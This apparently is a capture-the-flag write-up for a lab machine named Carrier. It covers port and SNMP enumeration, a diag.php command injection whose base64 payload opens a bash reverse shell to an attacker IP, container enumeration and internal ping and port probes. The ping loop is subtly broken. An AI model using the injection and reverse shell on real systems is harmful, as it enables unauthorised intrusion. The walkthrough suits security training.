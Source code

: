 ###  Carrier

#### information

21/tcp filtered ftp
22/tcp open     ssh  <span style=color:red>   OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)</span>
| ssh-hostkey:
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be​:​de:​07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open  <span style=color:red>   http    Apache httpd 2.4.18 ((Ubuntu))</span>
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

the [launchpad]( https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4)   tell you  the os is  [Bionic]()    where the openssh is, but  apache is not same, [Xenial]()

It is wired! so let's try Enum the [apache]().

****

 gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.105

/img (Status: 301)
/tools (Status: 301)
/doc (Status: 301)
Progress: 464 / 220561 (0.21%)^C
[!] Keyboard interrupt detected, terminating.

*****

web site have /doc directory , try   http://10.10.10.105/  it tell us  Error 45007 and 45009, It means that "License invalid or expired"  and "Default admin user password is set (see chassis serial number)"  in doc , it make me have tips!

so let try enum the udp port ! 

*****

 nmap -sU -p- --max-retries 0 10.11.1.105 --open -Pn

Not shown: 65179 open|filtered ports, 355 closed ports
PORT    STATE SERVICE
161/udp open  snmp

*****

the is port 161 , so that is [snmp]() port, so  try enum snmp with public community.

*****

 snmpwalk -v2c -c public 10.10.10.105

iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
iso.3.6.1.2.1.47.1.1.1.1.11 = No more variables left in this MIB View (It is past the end of the MIB tree)

*****

login with the  [sn]()

another tips in http://10.10.10.105/tickets.php

'''

Rx / CastCom. IP Engineering team from one of our upstream ISP called to
report a problem with some of their routes being leaked again due to a 
misconfiguration on our end. Update 2018/06/13: Pb solved: Junior Net 
Engineer Mike D. was terminated yesterday. Updated: 2018/06/15: CastCom.
still reporting issues with 3 networks: 
10.120.15,10.120.16,10.120.17/24's, one of their VIP is having issues 
connecting by FTP to an important server in the 10.120.15.0/24 network, 
investigating... Updated 2018/06/16: No prbl. found, suspect they had 
stuck routes after the leak and cleared them manually.

'''

and the http://10.10.10.105/diag.php  , it means somebody use [ps]()   command to do this. 

it  is very amazing that we can  post with the base64 encode  command.

POST /diag.php HTTP/1.1
Host: 10.10.10.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.105/diag.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Cookie: PHPSESSID=tohdslhr9mcvtrpemtpjj15727
Connection: close
Upgrade-Insecure-Requests: 1

check=cXVhZ2dhO2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjcvOTAwMCAwPiYx

and we get the [shell]()

as we mention  before that  hava another tips in http://10.10.10.105/tickets.php

and we get the use is root, see the [/proc/1/environ], this is a lxc container

```shell
cat /proc/1/environ
container=lxcroot
```

use the script [LinEnum.sh]()  to enum the  system  this a cron job in 

*/10 * * * * /opt/restore.sh 

this is interesting, but  we  firstly find out  what is the [ftp] ip. in the 10.120.15.0/24 network

by ** for i in  $(seq 1 255); do ping -c 10.120.15.$1 | grep ttl ; done 

64 bytes from 10.120.15.1: icmp_seq=1 ttl=64 time=0.092 ms
64 bytes from 10.120.15.10: icmp_seq=1 ttl=63 time=0.060 ms

echo a > /dev/tcp/10.120.15.10/21 && echo on

by the way, we can use the static-nmap https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap  .

so we know the ftp on 10.120.15.10, but login with anonymous 

